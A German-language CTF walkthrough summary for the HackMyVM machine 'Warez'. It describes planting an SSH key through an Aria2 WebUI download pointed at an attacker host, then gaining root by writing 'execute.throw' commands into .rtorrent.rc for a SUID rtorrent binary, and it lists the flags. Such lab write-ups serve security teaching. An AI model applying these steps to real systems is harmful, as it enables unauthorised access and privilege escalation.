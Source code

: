 # Warez - HackMyVM (Easy)
 
![Warez.png](Warez.png)

## Übersicht

*   **VM:** Warez
*   **Plattform:** HackMyVM (https://hackmyvm.eu/machines/machine.php?vm=Warez)
*   **Schwierigkeit:** Easy
*   **Autor der VM:** DarkSpirit
*   **Datum des Writeups:** 11. Oktober 2022
*   **Original-Writeup:** https://alientec1908.github.io/Warez_HackMyVM_Easy/
*   **Autor:** Ben C.

## Kurzbeschreibung

Das Ziel der "Warez"-Challenge war die Erlangung von User- und Root-Rechten. Der Weg begann mit der Enumeration eines Webservers (Port 80), der eine Aria2 WebUI hostete. Durch Ausnutzen der Download-Funktion dieser WebUI konnte eine `authorized_keys`-Datei (die den öffentlichen SSH-Schlüssel des Angreifers enthielt) in das Verzeichnis `/home/carolina/.ssh/` auf dem Zielsystem geschrieben werden. Dies ermöglichte den SSH-Login als Benutzer `carolina` (Passphrase `benni` für den lokalen Schlüssel des Angreifers). Die User-Flag wurde in dessen Home-Verzeichnis gefunden. Die Privilegieneskalation zu Root erfolgte durch Ausnutzung eines SUID-Root-Binaries `/usr/bin/rtorrent`. Durch Erstellen einer manipulierten `.rtorrent.rc`-Konfigurationsdatei im Home-Verzeichnis von `carolina` wurde `rtorrent` dazu gebracht, beim Start Befehle (`mkdir /root/.ssh` und `cp /home/carolina/.ssh/authorized_keys /root/.ssh/authorized_keys`) als `root` auszuführen. Dies platzierte den öffentlichen SSH-Schlüssel des Angreifers auch für den `root`-Account, was einen direkten SSH-Login als `root` ermöglichte.

## Disclaimer / Wichtiger Hinweis

Die in diesem Writeup beschriebenen Techniken und Werkzeuge dienen ausschließlich zu Bildungszwecken im Rahmen von legalen Capture-The-Flag (CTF)-Wettbewerben und Penetrationstests auf Systemen, für die eine ausdrückliche Genehmigung vorliegt. Die Anwendung dieser Methoden auf Systeme ohne Erlaubnis ist illegal. Der Autor übernimmt keine Verantwortung für missbräuchliche Verwendung der hier geteilten Informationen. Handeln Sie stets ethisch und verantwortungsbewusst.

## Verwendete Tools

*   `arp-scan`
*   `nmap`
*   `gobuster`
*   `python3 http.server`
*   `ssh`
*   `find`
*   `rtorrent` (als Exploit-Ziel)
*   `echo`
*   `cat`
*   `ls`
*   `cd`
*   Standard Linux-Befehle

## Lösungsweg (Zusammenfassung)

Der Angriff auf die Maschine "Warez" gliederte sich in folgende Phasen:

1.  **Reconnaissance & Web Enumeration:**
    *   IP-Findung mit `arp-scan` (`192.168.2.137`).
    *   `nmap`-Scan identifizierte offene Ports: 22 (SSH - OpenSSH 8.4p1) und 80 (HTTP - Nginx 1.18.0 mit "Aria2 WebUI").
    *   `gobuster` auf Port 80 fand `/index.html` (Aria2 WebUI), `/flags/` (Redirect) und `/result.txt`.

2.  **Initial Access (Aria2 WebUI Arbitrary File Write zu `carolina`):**
    *   Ein Python HTTP-Server wurde auf der Angreifer-Maschine gestartet, um eine `authorized_keys`-Datei (mit dem öffentlichen SSH-Schlüssel des Angreifers) bereitzustellen.
    *   In der Aria2 WebUI (`http://192.168.2.137/`) wurde über "Add/By URIs" die URL `http://[Angreifer-IP]/authorized_keys` hinzugefügt.
    *   Als Download-Zielverzeichnis (`Download settings > dir`) wurde `/home/carolina/.ssh` angegeben.
    *   Durch Starten des Downloads wurde die `authorized_keys`-Datei des Angreifers nach `/home/carolina/.ssh/authorized_keys` auf dem Zielsystem geschrieben.
    *   Erfolgreicher SSH-Login als `carolina` mit dem privaten Schlüssel des Angreifers (Passphrase `benni`).
    *   User-Flag `HMVKeepdownloading` in `/home/carolina/user.txt` gelesen.

3.  **Privilege Escalation (von `carolina` zu `root` via SUID `rtorrent`):**
    *   `find / -perm -4000 ...` identifizierte `/usr/bin/rtorrent` als SUID-Root-Binary.
    *   Erstellung einer `.rtorrent.rc`-Datei im Home-Verzeichnis von `carolina` mit folgendem Inhalt (sequentiell):
        1.  `echo "execute.throw = mkdir, /root/.ssh" > .rtorrent.rc`
        2.  `rtorrent &` (führte `mkdir /root/.ssh` als Root aus)
        3.  `echo "execute.throw = cp, /home/carolina/.ssh/authorized_keys, /root/.ssh/authorized_keys" > .rtorrent.rc`
        4.  `rtorrent &` (führte `cp ...` als Root aus und kopierte `carolina`s `authorized_keys` nach `/root/.ssh/`)
    *   Erfolgreicher SSH-Login als `root` mit dem privaten Schlüssel des Angreifers (derselbe wie für `carolina`).
    *   Root-Flag `HMVKeepsharing` in `/root/root.txt` gelesen.

## Wichtige Schwachstellen und Konzepte

*   **Unsichere Aria2 WebUI-Konfiguration:** Die Möglichkeit, beliebige Download-Pfade anzugeben, erlaubte das Schreiben von Dateien in sensible Verzeichnisse (Arbitrary File Write).
*   **SUID-Binary-Exploitation (`rtorrent`):** Ein SUID-Root-Programm (`rtorrent`) lud eine benutzerkontrollierte Konfigurationsdatei (`.rtorrent.rc`), die die Ausführung beliebiger Befehle (`execute.throw`) als Root ermöglichte.
*   **Konfigurationsdatei-Manipulation:** Überschreiben der `.rtorrent.rc` zur Befehlsausführung.
*   **SSH Authorized Keys:** Platzieren eines eigenen öffentlichen Schlüssels zur Authentifizierung.

## Flags

*   **User Flag (`/home/carolina/user.txt`):** `HMVKeepdownloading`
*   **Root Flag (`/root/root.txt`):** `HMVKeepsharing`

## Tags

`HackMyVM`, `Warez`, `Easy`, `Aria2`, `Arbitrary File Write`, `SSH`, `SUID Exploitation`, `rtorrent`, `.rtorrent.rc`, `Privilege Escalation`, `Linux`, `Web`
